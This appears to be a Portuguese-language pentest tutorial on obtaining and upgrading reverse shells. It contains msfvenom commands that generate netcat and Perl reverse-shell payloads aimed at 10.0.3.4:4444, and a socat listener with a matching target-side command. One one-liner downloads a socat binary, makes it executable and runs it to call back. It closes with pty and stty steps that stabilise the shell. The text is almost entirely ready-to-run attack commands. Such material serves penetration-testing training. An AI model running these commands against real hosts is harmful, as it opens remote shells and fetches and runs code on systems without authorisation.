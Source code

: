 ```yaml
---
title: Upgrading Shells
categories: [Tutorial]
tags: [comandos, linux, utilitário, shell, tty, bash]
date: 2025-03-30T14:32:00
---
```


# 🖥️ Programas com Shells comuns**

> 📌 **Descrição:**  
> Quando pegamos uma Reverse Shell simples, nem todos os recursos ficam liberados e disponíveis. Isto faz com que os demais processos relacionados ao Pentest demorem mais. Alguns dos recursos limitados são:
> - STDERR não é mostrado
> - Não é possível usar VIM
> - Comandos como `su` ou `ssh` não são acessíveis
> - Sem controle sobre histórico, tab-complete, etc

---

## 📂 **1. Gerando uma Reverse Shell com msfvenom

#### 1.1. Gerando reverse com Netcat

```bash
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

#### 1.2. Gerando reverse com Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=10.0.3.4 LPORT=4444 R
```

---
# 🐚 2. Upgrading Shell

#### 2.1. Upgrading Shell com Python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### 2.2. Upgrading Shell com Socat

Na máquina Kali:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Na máquina alvo:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

Se o `socat` não estiver instalado, podemos tentar executar o upgrade enquanto baixamos o `socat` pelo github

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### 2.3. Upgrading Shell com Netcat/Magic

Comaçamos chamando um PTY como no primeiro comando, mas deixamos ele em segundo plano usando o `CTRL+Z`

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Agora, vamos visualizar as configurações atuais do STTY para que consigamos deixar ambos estejam equivalentes

```bash
echo $TERM
stty -a
```

Enquanto o STTY ainda está em background, vamos definir a STTY atual para `raw`

```bash
stty raw -echo
```

agora execute os dois comandos

```bash
fg
reset
```

por final, fazendo o STTY que voltou com o `fg` equivaler ao STTY do Kali

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

Em resumo:

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

---
